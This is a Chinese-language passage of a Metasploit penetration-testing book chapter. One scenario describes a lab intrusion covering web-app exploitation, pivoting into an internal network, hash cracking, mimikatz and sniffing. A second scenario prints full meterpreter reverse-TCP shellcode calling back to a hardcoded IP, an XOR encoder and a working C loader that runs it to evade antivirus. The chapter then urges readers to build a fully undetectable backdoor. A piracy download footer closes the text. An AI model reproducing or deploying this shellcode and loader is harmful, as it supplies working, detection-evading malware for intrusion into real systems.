# 第七章：利用 Metasploit 的真实世界挑战

欢迎！这一章是本书最终和最复杂的一章。我建议您在继续阅读本章之前，先阅读所有之前的章节和练习。然而，如果您已经完成了所有的任务，并且自己做了一些研究，让我们继续面对现实世界的挑战，并用 Metasploit 来解决这些挑战。在本章中，我们将涵盖两种基于真实世界问题的场景，涉及渗透测试员和国家赞助黑客。这两种挑战提出了不同的要求；例如，逃避通常对执法部门的网络玩家比企业渗透测试员更相关，对系统实现持久性也是如此。本章的议程是让您熟悉以下内容：

+   转向内部网络

+   利用 Web 应用程序漏洞获取访问权限

+   破解密码哈希

+   使用目标系统作为代理

+   规避防病毒软件

还有更多。我们将制定策略，对目标进行无缺陷的攻击，并寻找每一个可能弹出对目标系统的 shell 的机会。因此，让我们开始吧。

# 场景 1：镜像环境

把自己想象成一个渗透测试员，任务是对现场项目中的单个 IP 进行黑盒渗透测试。您的工作是确保服务器和运行在其上的应用程序没有漏洞。

# 了解环境

由于我们知道我们将在现场环境中进行测试，我们可以总结测试如下表所示：

| **受检范围的 IP 数量** | 1 |
| --- | --- |
| **测试政策** | Web 应用程序和服务器 |
| **IP 地址** | `192.168.10.110` |
| **要执行的测试摘要** | 端口扫描测试 Web 应用程序漏洞测试服务器漏洞测试入侵与目标主机连接的任何其他网络 |
| **目标** | 获得对服务器的用户级访问权限提升权限到最高可能级别获得 Web 和服务器应用程序的凭证访问权限 |
| **测试类型** | 黑盒测试 |

此外，让我们也用图表的方式来看整个测试，以便更容易记住和理解：


从上图中可以看出，目前我们只有目标的 IP 地址的少量细节。让我们快速启动 Metasploit 并创建一个新的`workspace`并切换到它：



# 使用 DB_NMAP 对目标进行指纹识别

正如我们在前几章中讨论的，创建一个新的`workspace`并使用它将确保当前的结果不会与数据库中已有的扫描结果合并；因此，建议为所有新项目创建一个新的`workspace`。让我们快速在目标上执行一个 Nmap 扫描，扫描一些最常见的端口，如下图所示：


欢迎来到阳光无法照射的地方。您的目标上没有运行有漏洞的服务。然而，我们得到的唯一好消息是，目标正在运行 Windows 操作系统，可能是 Windows Server 2008 或 Windows Server 2012。那么现在我们该怎么办呢？让我们尝试手动连接到 80 端口的服务器，并寻找特定于 Web 应用程序的漏洞：


连接到 80 端口，我们可以看到 XAMPP 的默认页面显示出来，显示 XAMPP 的版本是 5.5.30，这是最新的版本。另一个令人失望的地方：由于版本没有漏洞，我们无法攻击它。然而，如果我们弄清楚了 XAMPP 服务器上托管了哪些应用程序，仍然可能有机会。为了做到这一点，让我们快速使用`auxiliary/scanner/http/brute_dirs`模块，尝试暴力破解目录结构，以找出 XAMPP 下运行的应用程序：



我们已经使用`setg`命令将`RHOSTS`设置为`192.168.10.110`，`THREADS`设置为`20`。让我们将`FORMAT`设置为`a,aa,aaa,aaa`。将格式设置为`a,aa,aaa,aaa`意味着辅助模块将从单个字符的字母数字开始尝试，然后是两个字符，三个字母，最后是四个字符的字母数字序列来暴力破解目录。为了简化问题，假设目标有一个名为`vm`的目录；如果我们从`FORMAT`中删除`aa`，它就不会被检查。让我们快速运行模块，看看是否有有趣的东西：


我们只找到一个目录，即`/img/`目录，看起来并不乐观。此外，即使使用大量线程，这种搜索也将是令人叹为观止的，而且不会穷尽一切。让我们使用一个更简单的模块来确定目录结构，如下面的截图所示：


我们现在使用`auxiliary/scanner/http/dir_scanner`模块，它是基于字典的暴力破解，而不是像`brute_dirs`模块那样的纯暴力破解。一个好的方法是首先使用这个模块，并根据它提供的详细信息，如果需要的话，我们可以使用`brute_dirs`模块。无论如何，让我们运行模块并分析输出，如下所示：



我们可以看到这里列出了一些目录。然而，具有响应代码 200 的目录是可以访问的。

响应代码 200 表示 OK，404 表示未找到资源，403 表示禁止状态，表示我们不被允许查看资源，但它确实存在。因此，最好记下 403 错误。

我们可以看到我们有一个名为 blog 的目录。让我们在 Web 浏览器中浏览它，看看它运行的是什么应用程序：


浏览`/blog/` URL，我们可以看到我们在目标系统上运行的 WordPress 网站。我们可以随时从 WordPress 中检查`readme.html`文件以检查版本号，大多数管理员通常忘记删除此文件，这使得攻击者更容易通过指纹识别版本号来针对 WordPress 网站：


WordPress 网站正在运行 4.7 版本，没有核心已知漏洞。

各种 WordPress 插件包含可能导致整个站点受损的漏洞。建议使用`wpscan`工具检查 WordPress 安装是否存在各种缺陷。

# 获取对易受攻击的 Web 应用程序的访问权限

我们还看到另一个响应代码为 200 的链接，即`/php-utility-belt/`。让我们在浏览器中尝试一下，看看我们是否能得到一些东西：


PHP 实用工具包是开发人员的一组方便工具。但是，它绝对不应该存在于生产环境中。PHP 实用工具包的 GitHub 页面上写着：

此应用程序允许您运行任意 PHP 代码，旨在在开发机器上本地托管。因此，它绝对不应该存在于生产环境或公共可访问环境中。你已经被警告了。

因此，让我们尝试在 Metasploit 中搜索 PHP 实用工具包，看看是否存在可能影响此应用程序的漏洞。我们将看到我们有一个针对 PHP 实用工具包应用程序的利用。让我们使用该模块并尝试利用该应用程序，如下面的截图所示：


让我们将`RHOST`的值设置为`192.168.10.110`并运行模块，如下面的截图所示：


是的！我们已经获得了对目标的 meterpreter 访问权限。让我们查看目录结构并执行一些后渗透功能：


正如我们在 Nmap 中预测的那样，目标是**Windows Server 2012 R2 版**。有了足够的信息，让我们更新测试的图表视图如下：



从上面的图像中，我们现在有了与目标操作系统和正在运行的应用程序相关的信息，并且我们有能力运行任何命令或执行任何后期利用任务。让我们深入网络，看看我们是否能找到连接到这台机器的其他网络。让我们运行`arp`命令，如下面的屏幕截图所示：


我们可以看到我们为 shell 创建了一个新的通道，但`arp`命令没有起作用。`arp`命令的失败是由于使用了 PHP Meterpreter，它不擅长处理网络和一些标准 API 函数。

# 从 PHP Meterpreter 迁移到 Windows Meterpreter

为了规避执行网络命令的问题，让我们快速生成一个`windows/meterpreter/reverse_tcp`类型的后门，并在目标系统上执行它，如下面的屏幕截图所示：


让我们在另一个终端中生成另一个 Metasploit 实例，并快速为之前的`MicrosoftDs.exe`后门启动一个匹配的处理程序，它将连接回端口`1337`：


由于我们需要多次运行利用处理程序，我们使用`makerc`命令为最后五个命令创建了一个资源脚本。回到我们的第一个 Meterpreter shell，让我们使用上传命令将`MicrosoftDs.exe`后门文件上传到目标，如下面的屏幕截图所示：


我们可以看到我们成功将我们的后门上传到目标。让我们使用`execute`命令执行它，如下面的屏幕截图所示：


一旦我们发出上述命令，我们可以看到我们在处理程序选项卡中成功获得了对目标的 Windows Meterpreter shell 访问，如下面的屏幕截图所示：


砰！我们成功获得了对目标的 Windows Meterpreter 访问。让我们更新图表视图如下：


现在我们可以放弃 PHP Meterpreter，继续使用 Windows Meterpreter shell。

让我们发出`ipconfig`命令，看看是否配置了另一个网络卡：



我们知道主机设置了额外的 IP 地址`172.28.128.5`，并且可能存在一些系统连接到这个网络。然而，我们无法直接连接到该网络，因为它是内部网络，对我们不可访问。我们需要一种机制，利用受损系统作为我们访问内部网络的代理。

# 枢纽到内部网络

Metasploit 提供了通过现有的 Meterpreter shells 连接到内部网络的功能。为了实现这一点，我们需要为内部网络添加一个路由到 Metasploit，以便它可以将来自我们系统的数据枢纽到内部网络范围内的目标主机。让我们使用`post/windows/manage/autoroute`模块将内部网络路由添加到 Metasploit，如下面的屏幕截图所示：



让我们将`SESSION`设置为`1`，因为`1`是我们 Meterpreter 会话的会话 ID，并将`SUBNET`设置为我们期望的网络范围，即`172.28.128.0`。让我们`run`该模块并分析输出如下：


我们可以看到目标子网的路由现在已添加到 Metasploit。我们现在可以快速进一步测试环境。

# 通过 Meterpreter 枢纽扫描内部网络

让我们快速`run`端口扫描，如下面的屏幕截图所示：



运行整个范围的端口扫描，我们可以看到我们有一个单独的主机，即`172.8.128.3`，开放的端口是 3306（一个流行的 MySQL 端口）和端口 80（HTTP）。让我们快速对运行在端口 80 上的 HTTP 服务器进行指纹识别，使用`auxiliary/scanner/http/http_version`。我们可以看到我们在`192.168.10.110`上也有相同版本的 Apache 软件运行。IP 地址`172.28.128.3`可能是一个镜像测试环境。但是，在该主机上我们没有找到任何 MySQL 端口。让我们快速更新图表视图并开始测试 MySQL 服务：


让我们按照以下截图快速对 MySQL 服务器运行一些测试：


运行`mysql_version`命令，我们可以看到 MySQL 的版本是 5.5.5-10.1.9-MariaDB。让我们运行`mysql_login`模块，如下截图所示：


由于 MySQL 位于内部网络上，大多数管理员不会配置 MySQL 服务器密码，并保持默认安装为空密码。让我们尝试运行诸如`show databases`之类的简单命令，并分析输出，如下截图所示：


非常有趣！我们有`192.168.10.110`上运行的 WordPress 安装，但在端口扫描中我们没有找到任何 MySQL 或其他数据库端口开放。这是运行在`192.168.10.110`上的 WordPress 网站的数据库吗？看起来是！让我们尝试从数据库中获取一些详细信息，如下截图所示：


发送**show tables from wordpress**命令会带来数据库中表的列表，显然这是一个真正的 WordPress 数据库。让我们尝试使用以下截图中显示的查询获取 WordPress 网站的用户详细信息：


太棒了！我们得到了管理员用户名及其密码哈希，我们可以将其提供给诸如`hashcat`之类的工具，以检索纯文本密码，如下截图所示：


我们将检索到的哈希存储在一个名为`hash`的文件中，并提供一个包含密码的字典文件`pass.txt`。开关`-m 400`表示我们正在破解 WordPress 的哈希。

现在我们可以登录 WordPress 网站，以更好地查看插件、主题等。但是，您还必须报告弱密码漏洞，因为 Admin@123 相当容易被猜到。

现在让我们在内部主机上运行`dir_scanner`模块，看看我们是否可以在 Web 应用程序前端找到一些有趣的东西：


我们知道我们只有一个可访问的`test`目录。但是，由于网络不在我们的一般子网中，我们无法浏览它。

# 使用 Metasploit 中的 socks 服务器模块

要从我们系统上的非 Metasploit 应用程序连接到内部网络，我们可以在 Metasploit 中设置`socks4a`模块，并可以通过我们的 meterpreter 会话代理来自任何应用程序的数据。让我们将我们的 meterpreter 放在`192.168.10.111`上并在后台运行`auxiliary/server/socks4a`模块，如下所示：


我们将`SRVHOST`设置为`127.0.0.1`，并保持`SRVPORT`默认为`1080`后，执行该模块。

在运行上述模块之前，在 Kali Linux 的`/etc/proxychains.conf`文件中将主机更改为 127.0.0.1，端口更改为 1080。

设置 socks 服务器后，我们现在可以通过在目标上添加`proxychains4`（在 OS X 上）/proxychains（在 Kali Linux 上）作为前缀来运行任何非 Metasploit 工具。我们可以在以下示例中看到这一点：



我们知道我们通过`proxychains4`对目标进行了 Nmap 扫描，并且成功了。让我们使用`proxychains4`和`wget`来获取`test`目录中的索引页面：


让我们查看`index.html`文件的内容，并查看应用程序的标题：


哇！在这台主机上也运行着`php_utility_belt`的另一个实例。我们知道该怎么做，对吧？让我们启动我们在`192.168.10.110`上用于镜像服务器的相同模块，如下所示：


在设置`RHOST`的值为`172.28.128.3`和`TARGETURI`的值为`/test/ajax.php`后，让我们运行该模块，因为目录名称是 test 而不是`/php-utility-belt/`，如下图所示：


默认模块将使用`reverse_tcp`有效载荷运行。然而，由于我们通过`192.168.10.110`上的 meterpreter 会话攻击主机，建议利用具有`bind_tcp`有效载荷的服务，因为它可以在直接连接上运行，这将通过 meterpreter 会话发生，消除目标`172.28.128.3`回到我们这里。我们知道我们的会话是 PHP meterpreter；让我们像之前一样通过在已使用的端口之外的任何其他端口上运行一个单独的处理程序来切换到 Windows meterpreter 会话。

让我们快速创建、上传并执行另一个后门文件，连接到端口`1338`，因为我们已经使用了端口`1337`。此外，让我们还在端口`1338`上设置一个处理程序来接收通信，如下图所示：


耶！我们已经获得了对目标的 Windows meterpreter 访问。让我们收集一些系统信息，如下图所示：


我们可以看到操作系统是 Windows Server 2008，我们拥有管理员权限。让我们使用`get system`命令升级到系统级权限，如前面的屏幕截图所示。

# 以明文形式转储密码

拥有系统级权限，让我们使用`hashdump`命令转储密码哈希，如下所示：


消除破解密码的麻烦，让我们使用`load mimikatz`命令加载 mimikatz 并使用`kerberos`命令以明文形式转储密码，如前面的屏幕截图所示。

# 使用 Metasploit 嗅探网络

Metasploit 提供了一个嗅探插件，可以在目标上进行网络嗅探。让我们加载`sniffer`模块，如下所示：


让我们使用`sniffer_interfaces`命令选择一个接口，在目标系统上开始嗅探：


让我们选择接口 ID`2`，开始在`Intel PRO/100 MT 适配器`上进行嗅探，如下图所示：


我们可以看到我们正在捕获接口`2`上的数据，它是使用`sniffer_start`命令和`sniffer_stats`命令后跟接口的 ID 开始的。现在让我们转储数据，看看是否能找到一些有趣的信息：


我们将所有从接口`2`捕获的数据转储到`test.pcap`文件中。让我们在 Wireshark 中加载它：


我们可以看到我们现在有能力成功地在目标上进行嗅探。嗅探模块通常会产生有用的数据，因为大多数内部应用程序在这里不使用 HTTPS。在渗透测试期间，如果您在工作时间继续运行嗅探，这将是值得的。让我们最后更新图示视图，如下所示：



# 攻击摘要

总结整个测试，我们执行了以下操作：

1.  在`192.168.10.110`上进行端口扫描（端口 80 开放）。

1.  在端口 80 上强制打开目录（发现 WordPress 和 PHP 实用工具包）。

1.  利用 PHP 实用工具包获得 PHP meterpreter 访问。

1.  升级到 Windows meterpreter。

1.  进行后期利用以确定内部网络的存在。

1.  添加到内部网络的路由（仅限 Metasploit）。

1.  在内部网络`172.28.128.0`上进行端口扫描。

1.  在`172.28.128.3`上发现了 3306（MySQL）和 80（Apache）。

1.  指纹识别，获得对 MySQL 的访问，并收集了运行在`192.168.10.110`上的 WordPress 域的凭据。

1.  使用`hashcat`破解 WordPress 网站的哈希。

1.  在端口 80 上暴力破解目录（发现`test`目录）。

1.  设置一个 socks 服务器，并使用`wget`从`test`目录中拉取索引页面。

1.  在`test`目录中发现 PHP 实用工具包；利用它。

1.  升级到 Windows meterpreter。

1.  使用`getsystem`提升权限。

1.  使用`mimikatz`找出明文密码。

1.  在目标网络上进行嗅探。

# 情景 2：你看不到我的 meterpreter

在前面的章节中，我们看到了如何使用 Metasploit 控制各种系统。然而，我们没有考虑到大多数操作系统上都存在防病毒解决方案这一重要问题。让我们创建一个类型为`windows/meterpreter/reverse_tcp`的后门可执行文件，如下所示：


现在我们可以将这个可执行文件与任何漏洞利用或办公文档一起放置，或者将其绑定到任何其他可执行文件并发送给运行 Windows 并在系统上运行 AVG 防病毒解决方案的目标。让我们看看当目标执行文件时会发生什么：



我们生成的文件引起了 AVG 防病毒软件的突然警报并被检测到。让我们在 majyx 扫描仪上扫描我们的`generic.exe`文件，以获取检测率的概述，如下所示：


我们可以看到 44/70 个 AV 检测到我们的文件是恶意的。这是相当令人沮丧的，因为作为执法人员，您可能只有一次机会让文件在目标系统上执行。

majyx 扫描仪可以在[`scan.majyx.net/`](http://scan.majyx.net/)上访问。

majyx 扫描仪有 35 个 AV，但有时会对每个 AV 进行两次扫描，因此会有 70 个 AV 条目。请将前面的扫描结果视为 22/35，而不是 44/70。

# 使用 shellcode 进行娱乐和利润

我们看到各种 AV 解决方案的检测率如何影响我们的任务。我们可以使用`meterpreter`的 shellcode 方法来规避 AV。我们将生成 C shellcode，自己编写后门的其余部分。让我们生成 shellcode 如下：


让我们快速看一下 shellcode，如下所示：



# 加密 shellcode

我们可以看到我们生成了 shellcode。我们将快速编写一个程序，使用`XOR`加密现有的 shellcode，如下所示：

```
#include <Windows.h>
#include <iostream>
#include <iomanip>
#include <conio.h>
unsigned char shellcode[] =
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
"\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x6a\x05\x68\x2d\x4c\x21\x35\x68\x02"
"\x00\x05\x39\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
"\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
"\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x61\x00\x00"
"\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83"
"\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a"
"\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57"
"\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x22\x58\x68\x00"
"\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57\x68"
"\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\xe9\x71\xff\xff"
"\xff\x01\xc3\x29\xc6\x75\xc7\xc3\xbb\xf0\xb5\xa2\x56\x6a\x00"
"\x53\xff\xd5";

int main()
  {
    for (unsigned int i = 0; i < sizeof shellcode; ++i)
      {
        if (i % 15 == 0)
          {
            std::cout << "\"\n\"";
          }
        unsigned char val = (unsigned int)shellcode[i] ^ 0xAB;
        std::cout << "\\x" << std::hex << (unsigned int)val;
      }
    _getch();
    return 0;
  }

```

我们可以看到我们刚刚使用`0xAB`对 shellcode 进行了 XOR。这个程序将生成以下输出：



# 创建一个解码器可执行文件

让我们使用新生成的 shellcode 编写一个程序，将生成一个可执行文件，如下所示：

```
#include <Windows.h>
#include <iostream>
#include <iomanip>
#include <conio.h>
unsigned char encoded[] =
"\x57\x43\x29\xab\xab\xab\xcb\x22\x4e\x9a\x6b\xcf\x20\xfb\x9b"
"\x20\xf9\xa7\x20\xf9\xbf\x20\xd9\x83\xa4\x1c\xe1\x8d\x9a\x54"
"\x7\x97\xca\xd7\xa9\x87\x8b\x6a\x64\xa6\xaa\x6c\x49\x59\xf9"
"\xfc\x20\xf9\xbb\x20\xe1\x97\x20\xe7\xba\xd3\x48\xe3\xaa\x7a"
"\xfa\x20\xf2\x8b\xaa\x78\x20\xe2\xb3\x48\x91\xe2\x20\x9f\x20"
"\xaa\x7d\x9a\x54\x7\x6a\x64\xa6\xaa\x6c\x93\x4b\xde\x5d\xa8"
"\xd6\x53\x90\xd6\x8f\xde\x4f\xf3\x20\xf3\x8f\xaa\x78\xcd\x20"
"\xa7\xe0\x20\xf3\xb7\xaa\x78\x20\xaf\x20\xaa\x7b\x22\xef\x8f"
"\x8f\xf0\xf0\xca\xf2\xf1\xfa\x54\x4b\xf4\xf4\xf1\x20\xb9\x40"
"\x26\xf6\xc3\x98\x99\xab\xab\xc3\xdc\xd8\x99\xf4\xff\xc3\xe7"
"\xdc\x8d\xac\x54\x7e\x13\x3b\xaa\xab\xab\x82\x6f\xff\xfb\xc3"
"\x82\x2b\xc0\xab\x54\x7e\xc1\xae\xc3\x86\xe7\x8a\x9e\xc3\xa9"
"\xab\xae\x92\x22\x4d\xfb\xfb\xfb\xfb\xeb\xfb\xeb\xfb\xc3\x41"
"\xa4\x74\x4b\x54\x7e\x3c\xc1\xbb\xfd\xfc\xc3\x32\xe\xdf\xca"
"\x54\x7e\x2e\x6b\xdf\xa1\x54\xe5\xa3\xde\x47\x43\xca\xab\xab"
"\xab\xc1\xab\xc1\xaf\xfd\xfc\xc3\xa9\x72\x63\xf4\x54\x7e\x28"
"\x53\xab\xd5\x9d\x20\x9d\xc1\xeb\xc3\xab\xbb\xab\xab\xfd\xc1"
"\xab\xc3\xf3\xf\xf8\x4e\x54\x7e\x38\xf8\xc1\xab\xfd\xf8\xfc"
"\xc3\xa9\x72\x63\xf4\x54\x7e\x28\x53\xab\xd6\x89\xf3\xc3\xab"
"\xeb\xab\xab\xc1\xab\xfb\xc3\xa0\x84\xa4\x9b\x54\x7e\xfc\xc3"
"\xde\xc5\xe6\xca\x54\x7e\xf5\xf5\x54\xa7\x8f\x42\xda\x54\x54"
"\x54\xaa\x68\x82\x6d\xde\x6c\x68\x10\x5b\x1e\x9\xfd\xc1\xab"
"\xf8\x54\x7e\xab";

int main()
  {
    void *exec = VirtualAlloc(0, sizeof encoded, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    for (unsigned int i = 0; i < sizeof encoded; ++i)
      {
        unsigned char val = (unsigned int)encoded[i] ^ 0xAB;
        encoded[i] = val;
      }
    memcpy(exec, encoded, sizeof encoded);
    ((void(*)())exec)();
    return 0;
  }

```

前面的代码将只是使用`XOR`解密例行编码的 shellcode，并使用`memcpy`函数将 shellcode 复制到可执行区域，然后从那里执行。让我们在 majyx 扫描仪上测试一下，如下面的屏幕截图所示：



哈哈！突然之间 AV 不再将我们的 meterpreter 后门检测为恶意。让我们尝试在安装了 AVG 解决方案的系统上运行可执行文件，如下所示：



哦，好！这里也没有检测到。让我们看看我们是否已经获得了对目标的 meterpreter 访问：


让我们确认一下系统上是否运行着`AVG`：


目标上有很多`AVG`进程在运行。我们不仅绕过了这个防病毒软件，还将检测率从 22/35 降低到 2/35，这相当令人印象深刻。对源代码进行一些小修改将生成一个完全不可检测的 FUD（完全不可检测）。但是，我会把这留给你来完成。

# 进一步的路线图和总结

在本章中，我们看到了最前沿的现实世界场景，不仅仅是利用易受攻击的软件；相反，Web 应用程序为我们提供了控制系统的途径。我们看到了如何利用外部接口来扫描和利用内部网络中的目标。我们还看到了如何利用我们的非 Metasploit 工具以及 meterpreter 会话来扫描内部网络。最后，我们看到了如何利用现有的 meterpreter shellcode 来规避反病毒解决方案，从而轻松避开我们受害者的眼睛。要进一步阅读有关强硬的利用的内容，您可以参考我关于 Metasploit 的掌握系列书籍*掌握 Metasploit*。

您可以执行以下练习，以使自己熟悉本章涵盖的内容：

+   尝试生成一个 FUD meterpreter 后门

+   在浏览器中使用 socks 来浏览内部网络中的内容

+   尝试构建没有坏字符的 shellcode

+   弄清楚使用反向 TCP 和绑定 TCP 有效载荷的区别

+   熟悉各种哈希类型

现在，继续练习和磨练你在 Metasploit 上的技能，因为这不是结束，这只是开始。

这本书是从 AvaxHome 下载的！

访问我的博客，了解更多新书籍：

[`avxhm.se/blogs/AlenMiler`](https://tr.im/avaxhome)
